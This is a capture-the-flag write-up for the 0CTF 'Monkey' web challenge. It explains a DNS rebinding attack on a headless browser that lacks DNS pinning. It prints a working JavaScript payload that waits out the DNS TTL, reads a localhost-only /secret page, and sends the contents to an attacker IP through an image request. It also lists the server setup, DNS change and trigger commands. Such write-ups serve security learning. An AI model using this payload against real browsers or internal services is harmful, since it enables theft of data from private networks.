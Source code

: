 
### Monkey (Web 4)

#### Vulnerability

Generally: browsers inherent weakness and susceptibility to DNS rebinding attacks and in particular: lack of DNS pinning countermeasure in Monkey "browser".

#### Exploitation

**Overview**

We were given a clue that Monkey will staty on visited page for 2 minutes. So to exploit it we need to:

 - delay execution of our javascript for as long as possible (but of courese
   less than 2 minutes)
 - make sure that our domain has low TTL set (60 sec for example) 

When Monkey will be visting our domain it will be resolved to `4.3.2.1` IP but
after 110 sec (when the js will woke up from timeout) Monkey will need to do
additional DNS query (due to already expired TTL) to execute this line:
`xhttp.open("GET", "http://x.mydomain.com:8080/secret", false);` and this time
(after chainging DNS setting in between) the domain will resolve to `127.0.0.1`.

**Prerequisites**

 - server with public IP (for example AWS t2.nano instance with IP 4.3.2.1)
 - domain name pointing to above machine (for example x.mydomain.com) with low
   TTL value (60 sec)

**Server preparation**

```
$ cat <<EOF > file.html
<html>
<head>
</head>
<body>
<script>
setTimeout(function(){
        xhttp = new XMLHttpRequest();
        xhttp.open("GET", "http://x.mydomain.com:8080/secret", false);
        xhttp.send();

        resp = xhttp.responseText;

        image = new Image();
        image.src='http://4.3.2.1:8080?secret=' + resp;
}, 110 * 1000);
</script>
</body>
</html>
EOF
```

    $ python3 -m http.server --bind 0.0.0.0 8080

**Finding prove of work**

    $ links https://www.google.com/?q=<6_chars_from_monkey_page>+md5

**Triggering Monkey to browse your `x.mydomain.com:8080/file.html`**

    $ curl http://202.120.7.200/run.php -d 'task=<string_from_prove_of_work>&url=<your_url>'

**Changing DNS setting**

In AWS Route 53 change: `x.mydomain.com -> 127.0.0.1`

Verify change of DNS setting:

    $ dig +nocmd +noall +answer x.mydomain.com

After 110 secs observe python's http.server logs for flag.

Flag: 0ctf{monkey_likes_banananananananaaaa}
